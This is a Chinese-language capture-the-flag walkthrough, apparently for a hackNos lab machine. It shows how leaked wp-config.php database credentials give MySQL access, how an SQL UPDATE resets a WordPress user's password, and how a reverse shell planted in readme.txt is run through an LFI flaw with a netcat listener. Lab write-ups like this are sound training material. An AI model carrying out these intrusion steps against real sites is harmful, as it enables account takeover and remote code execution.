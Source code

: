 前面获得 flag 方法一样... 继续提 root 权限...

一路跟着我学习过来的都知道，查看数据库需要找到 wp-config.php 文件... 里面包含了数据库账号密码... 找它！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybh6r0dQT64OBEXZHPyguphVooyO4ZH69MjTSia8RDwIjBQibDISRsaVUfQ/640?wx_fmt=png)

一般都在 html 目录下面查找... 找到了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhyHw1GGLrc7utsqKZKXbcxytp5FOnhBu0du80iaRx46vYbCbSicnJvklw/640?wx_fmt=png)

```
发现用户名密码：wpuser、hackNos-2.com
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhYyVFicWS55RNemXGk7ztSM0aNHjRjHDw9FeuUOVJy6guicBSJUmesiaBQ/640?wx_fmt=png)

```
mysql -h localhost -uwpuser -phackNos-2.com
$P$B.O0cLMNmn7EoX.JMHPnNIPuBYw6S2/
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhcIlknXYyylufkWBuztS2CXvI4CXdEn4zlLnFo2Lpdd8OwrPhHPaoPw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybh9GRtlanG11dKESrvOaXlAiaujvSOOHt0hfRk8FCB17Pr566xalCGJww/640?wx_fmt=png)

解密不出，跳过跳过... 等了半天半天，最后也没解密出来...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhzTRwy9KBTqibA0PRhoTIwaaxPQaekLicNQSjrV0mLtQSsfn54s6knDpA/640?wx_fmt=png)

```
update wp_users set user_pass=md5("dayu") where user_login='user';
```

这里我直接使用命令，虽然破解不了，我将 user 用户密码修改为 dayu

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhficRJZ72ddicMn1gLibvK7tsrrKJYTuOpfgFzRnDORqvOlFtz4wKlVz9w/640?wx_fmt=png)

成功通过用户密码：

```
user/dayu
```

登陆进入...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhxag7EntKMQKtUZpX2ibgxmtphuEBYv4PEzx005HjmlvL2IukPofxnQw/640?wx_fmt=png)

进来后，很熟悉的界面了，这里直接利用即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhBZsMC5bvr4Fsic3r6GsTjLH3Go3J5GGp09sxRoO53QnruicLMKatmGUw/640?wx_fmt=png)

将 dayushell 复制进来... 利用 readme.txt 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOKP4kES7fnRzG5vZLUGybhg0nE89663qCwNMU2vaqGyoajJRP1Bpa8QL5vXe6yDeqt8p5Abkjs7Q/640?wx_fmt=png)

然后利用之前的 LFI 漏洞包含该 txt 文件即可... 记得本地开启 nc...
